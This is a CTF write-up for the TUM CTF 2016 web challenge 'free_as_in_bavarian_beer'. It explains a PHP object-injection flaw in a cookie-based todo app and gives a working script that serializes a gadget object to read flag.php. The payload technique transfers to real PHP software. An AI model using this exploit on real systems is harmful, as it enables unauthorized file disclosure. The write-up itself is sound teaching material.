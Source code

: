 ```yaml
---
title: 'TUM CTF 2016: free_as_in_bavarian_beer (web 50)'
date: 2016-10-02 00:00:00 Z
categories:
- writeup
tags:
- cat/web
- lang/php
layout: post
author: verr
---
```


* **Category:** Web
* **Points:** 50
* **Description:**

> You have lots of stuff to do? Better start using this cool tool.
>
> http://104.154.70.126:10888
>
> PROTIP: Flag is in flag.php.

([dumped Sourcecode](https://gist.github.com/stefan2904/21a3b0ca10163f9fced6ab3767a92a08))

## Write-up

Since it's the easiest web challenge, it was easily possible to dump the sourcecode. The app is a simple todo manager, which stores the tasks in a cookie. Reading the code, we quickly noticed the suspicious `unserialize`:

```php
<?php
if(isset($_COOKIE['todos'])){
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 32);
    $m = substr($c, 32);
    if(md5($m) === $h){
        $todos = unserialize($m);
    }
}
?>
```

This is a prime example for [PHP Object Injection](https://www.owasp.org/index.php/PHP_Object_Injection). In this case it was not necessary to dig deeper into PHP internal classes, since the class in need was conveniently already present; the class used to display the source (and eny other file) ...

```php
<?php
Class GPLSourceBloater{
    public function __toString()
    {
        return highlight_file('license.txt', true).highlight_file($this->source, true);
    }
}
?>
```

So we need to build a `GPLSourceBloater` object, set its `source` attribute to the desired file (`flag.php`) and serialize it.

```php
<?

Class GPLSourceBloater{
    public function __toString()
    {
        return highlight_file('license.txt', true).highlight_file($this->source, true);
    }
}

$foo = new GPLSourceBloater();
$foo->source = 'flag.php';

$bar = [];
$bar[] = $foo;

$m = serialize($bar);
$h = md5($m);

echo urlencode($h.$m);

?>
```

After storing the serialized object to a cookie named `todos` and loading the page again, `__toString()` did its job and we were presented with the flag: 

```
hxp{Are you glad that at least Java(TM) isn't affected by serialization bugs?}
```


